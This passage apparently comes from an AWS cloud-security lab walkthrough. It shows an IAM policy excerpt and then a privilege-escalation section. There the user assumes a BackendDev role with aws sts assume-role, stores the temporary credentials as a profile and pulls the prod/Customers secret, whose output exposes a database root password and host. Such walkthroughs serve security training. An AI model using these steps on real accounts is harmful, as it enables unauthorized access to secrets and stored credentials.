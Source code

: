 ```json title="Output: BackendDevPolicy Document"
                        "secretsmanager:DescribeSecret"
                    ],
                    "Resource": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf"
                }
            ]
        }
    }
}
```

**`BackendDev` Role Permissions:**

  * `ec2:DescribeInstances` on all instances.
  * `secretsmanager:ListSecrets` on all secrets.
  * `secretsmanager:GetSecretValue` on a **specific secret**: `prod/Customers`.

## 6\. Privilege Escalation and Accessing Secrets

Now we execute the privilege escalation by assuming the `BackendDev` role.

```bash title="Assume the BackendDev Role"
$ aws sts assume-role --role-arn arn:aws:iam::794929857501:role/BackendDev --role-session-name BackendDev --profile iam_user
```

This command returns temporary credentials (`AccessKeyId`, `SecretAccessKey`, `SessionToken`).

:::danger Action Required: Configure New Profile
You must manually add these new, temporary credentials to your `~/.aws/credentials` file under a new profile. Let's call it `BackendDev`.

```ini title="~/.aws/credentials"
[BackendDev]
aws_access_key_id = ASIA...
aws_secret_access_key = i2HL...
aws_session_token = IQoJ...
```

:::

Now, we can perform actions using the permissions of the `BackendDev` role by specifying `--profile BackendDev`. First, let's list the available secrets.

```bash title="List Secrets as BackendDev"
$ aws secretsmanager list-secrets --profile BackendDev
```

This command confirms we can see the `prod/Customers` secret. Finally, we retrieve its value.

```bash title="Get Secret Value as BackendDev"
$ aws secretsmanager get-secret-value --secret-id prod/Customers --profile BackendDev
```

```json title="Output: Secret Revealed"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf",
    "Name": "prod/Customers",
    "SecretString": "{\"username\":\"root\",\"password\":\"$DB$Admin12345\",\"engine\":\"mariadb\",\"host\":\"10.10.14.15\",\"port\":\"3306\",\"dbname\":\"customers\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2023-09-29T08:37:58.579000-04:00"
}
```
